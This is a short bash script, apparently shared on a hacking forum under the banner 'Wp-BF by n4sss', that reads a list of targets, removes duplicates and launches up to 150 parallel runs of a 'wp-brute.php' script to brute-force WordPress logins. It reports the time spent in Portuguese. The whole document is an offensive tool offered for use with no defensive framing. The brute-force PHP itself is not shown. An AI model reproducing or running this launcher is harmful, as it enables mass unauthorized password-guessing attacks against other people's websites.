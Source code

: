 // by r00ter | tornetwork@exploit.im
 
datainicial=`date +%s`
echo "Wp-BF by n4sss. Multithread on"
echo "Wait the brute in the background :D "
 
cat $1 | sort | uniq > mfu.txt
CONTOR=0
for i in `cat mfu.txt`
do
CONTOR=`ps aux | grep -c php`
 
while [ $CONTOR -ge 150 ];do
CONTOR=`ps aux | grep -c php`
echo "Sleeping"
sleep 5
done
 
if [ $CONTOR -le 150 ]; then
php wp-brute.php $i > /dev/null &
fi
 
done
datafinal=`date +%s`
soma=`expr $datafinal - $datainicial`
resultado=`expr 10800 + $soma`
tempo=`date -d @$resultado +%H:%M:%S`
echo " Tempo gasto: $tempo "
